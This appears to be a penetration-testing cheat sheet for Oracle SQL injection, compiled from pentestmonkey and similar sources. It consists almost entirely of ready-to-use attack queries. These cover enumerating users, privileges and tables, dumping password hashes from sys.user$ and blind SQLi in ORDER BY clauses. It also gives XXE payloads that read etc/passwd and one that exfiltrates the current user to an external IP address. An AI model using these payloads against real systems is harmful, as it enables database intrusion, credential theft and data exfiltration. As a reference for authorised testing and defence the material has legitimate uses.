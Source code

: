 # SQLi - Oracle

#### From:
- http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
- http://ferruh.mavituna.com/oracle-sql-injection-cheat-sheet-oku/
- http://www.securitytube.net/video/6138
- https://portswigger.net/web-security/sql-injection/cheat-sheet
 
### Enumeration

| Enumerate    | Command                 |
|--------------|-------------------------|
| Current User | `SELECT user FROM dual` |
|Database version |	`SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';` <br> `SELECT banner FROM v$version WHERE banner LIKE 'TNS%';` <br> `SELECT version FROM v$instance;`
|Current Database | `SELECT global_name FROM global_name;` <br> `SELECT name FROM v$database;`<br> `SELECT instance_name FROM v$instance;` <br> `SELECT SYS.DATABASE_NAME FROM DUAL;` |
| List Databases | `SELECT DISTINCT owner FROM all_tables;`|
|List Users | `SELECT username FROM all_users ORDER BY username;`|
| List Passwords (Privileged only) | `SELECT username FROM all_users ORDER BY username;` <br> `SELECT name,spare4 FROM sys.user$`|
| List Tables | `SELECT table_name FROM all_tables;` |
| Current Permissions | `SELECT * FROM DBA_SYS_PRIVS;` <br> `SELECT * FROM DBA_TAB_PRIVS;` <br> `SELECT * FROM DBA_ROLE_PRIVS;`
 
Dumping
You can dump tables very similar to any other query language.
```
SELECT * FROM <tablename>
```
 
### Notes
1. There is no LIMIT clause in Oracle. If the database is Oracle 12c R1 or above, use instead `FETCH NEXT 10 ROWS ONLY`
e.g.
```
SELECT * FROM APP_HISTORY  FETCH NEXT 100 ROWS ONLY
```
 
### Local file access

```
select extractvalue(xmltype('<!ENTITY xxe SYSTEM "etc/passwd">]>'||'&'||'xxe;'),'/l') from dual;
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "etc/passwd"> %remote; %param1;]>'),'/l') from dual;
```

### Data Exfiltration
https://blog.netspi.com/advisory-xxe-injection-oracle-database-cve-2014-6577/
https://exploitstube.com/sql-injection-abusing-xxe-in-oracle.html
```
select extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://66.35.63.202/'||(SELECT user FROM dual)||'"> %remote; %param1;]>'),'/l') from dual;
```

### Pentestmonkey - Oracle SQLi
http://pentestmonkey.net/cheat-sheet/sql-injection/oracle-sql-injection-cheat-sheet
 
Some of the queries in the table below can only be run by an admin.  These are marked with “– priv” at the end of the query.

| Enumerate    | Command                 |
|--------------|-------------------------|
| Version      | `SELECT banner FROM v$version WHERE banner LIKE ‘Oracle%’;` <br>	`SELECT banner FROM v$version WHERE banner LIKE ‘TNS%’;`<br>`SELECT version FROM v$instance;`|
|Comments | `SELECT 1 FROM dual — comment` <br> –NB: `SELECT` statements must have a `FROM` clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.|
| Current User | `SELECT user FROM dual` |
| List Users | `SELECT username FROM all_users ORDER BY username;` <br> `SELECT name FROM sys.user$; — priv` |
| List Password Hashes | `SELECT name, password, astatus FROM sys.user$ — priv`, <= 10g.  astatus tells you if acct is locked <br>  `SELECT name,spare4 FROM sys.user$ — priv`, 11g |
| Password Cracker | `checkpwd` will crack the DES-based hashes from Oracle 8, 9 and 10. |
| List Privileges | `SELECT * FROM session_privs;` — current privs <br> `SELECT * FROM dba_sys_privs WHERE grantee = ‘DBSNMP’;` — priv, list a user’s privs <br> `SELECT grantee FROM dba_sys_privs WHERE privilege = ‘SELECT ANY DICTIONARY’;` — priv, find users with a particular priv <br> `SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;` |
| List DBA Accounts | `SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = ‘YES’;` — priv, list DBAs, DBA roles |
| Current Database | `SELECT global_name FROM global_name;` <br> `SELECT name FROM v$database;` <br> `SELECT instance_name FROM v$instance;` <br> `SELECT SYS.DATABASE_NAME FROM DUAL;`|
| List Databases | `SELECT DISTINCT owner FROM all_tables;` — list schemas (one per user)<br> –Also query TNS listener for other databases.  See tnscmd (services | status).|
| List Columns | `SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’;`<br> `SELECT column_name FROM all_tab_columns WHERE table_name = ‘blah’ and owner = ‘foo’;`|
| List Tables | `SELECT table_name FROM all_tables;`<br> `SELECT owner, table_name FROM all_tables;`|
| Find Tables From Column Name | `SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE ‘%PASS%’;` — NB: table names are upper case|
| Select Nth Row | `SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=9;` — gets 9th row (rows numbered from 1)
| Select Nth Char | `SELECT substr(‘abcd’, 3, 1) FROM dual;` — gets 3rd character, ‘c’ |
| Bitwise AND | `SELECT bitand(6,2) FROM dual; — returns 2` <br> `SELECT bitand(6,1) FROM dual; — returns0`|
|ASCII Value -> Char | `SELECT chr(65) FROM dual; — returns A` |
|Char -> ASCII Value | `SELECT ascii(‘A’) FROM dual;` — returns 65 |
| Casting | `SELECT CAST(1 AS char) FROM dual;`<br>`SELECT CAST(’1′ AS int) FROM dual;`|
|String Concatenation| `SELECT ‘A’ || ‘B’ FROM dual;` — returns AB|
|If Statement | `BEGIN IF 1=1 THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END;` — doesn’t play well with SELECT statements|
|Case Statement | `SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual;` — returns 1 <br>`SELECT CASE WHEN 1=2 THEN 1 ELSE 2 END FROM dual;` — returns 2|
| Avoiding Quotes | `SELECT chr(65) || chr(66) FROM dual;` — returns AB
| Time Delay | `BEGIN DBMS_LOCK.SLEEP(5); END;` — priv, can’t seem to embed this in a SELECT <br> `SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual;` — if reverse looks are slow <br> `SELECT UTL_INADDR.get_host_address(‘blah.attacker.com’) FROM dual;` — if forward lookups are slow <br> `SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;` — if outbound TCP is filtered / slow<br> – Also see Heavy Queries to create a time delay |
| Make DNS Requests | `SELECT UTL_INADDR.get_host_address(‘google.com’) FROM dual;` <br>`SELECT UTL_HTTP.REQUEST(‘http://google.com’) FROM dual;`|
| Command Execution | Javacan be used to execute commands if it’s installed.ExtProc can sometimes be used too, though it normally failed for me. :-( |
| Local File Access | `UTL_FILE` can sometimes be used.  Check that the following is non-null: `SELECT value FROM v$parameter2 WHERE name = ‘utl_file_dir’;` <br>Java can be used to read and write files if it’s installed (it is not available in Oracle Express).|
| Hostname, IP Address | `SELECT UTL_INADDR.get_host_name FROM dual;` <br> `SELECT host_name FROM v$instance;` <br> `SELECT UTL_INADDR.get_host_address FROM dual;` — gets IP address <br> `SELECT UTL_INADDR.get_host_name(’10.0.0.1′) FROM dual;` — gets hostnames|
| Location of DB files | `SELECT name FROM V$DATAFILE;`|
| Default/System Databases | `SYSTEM`<br>`SYSAUX`

### Misc Tips
In no particular order, here are some suggestions from pentestmonkey readers.
From Christian Mehlmauer:
| Enumerate    | Command                 |
|--------------|-------------------------|
| Get all tablenames in one string | `select rtrim(xmlagg(xmlelement(e, table_name || ‘,’)).extract(‘//text()’).extract(‘//text()’) ,’,') from all_tables` –  when using union based SQLI with only one row|
| Blind SQLI in order by clause	| `order by case when ((select 1 from user_tables where substr(lower(table_name), 1, 1) = ‘a’ and rownum = 1)=1) then column_name1 else column_name2 end` — you must know 2 column names with the same datatype|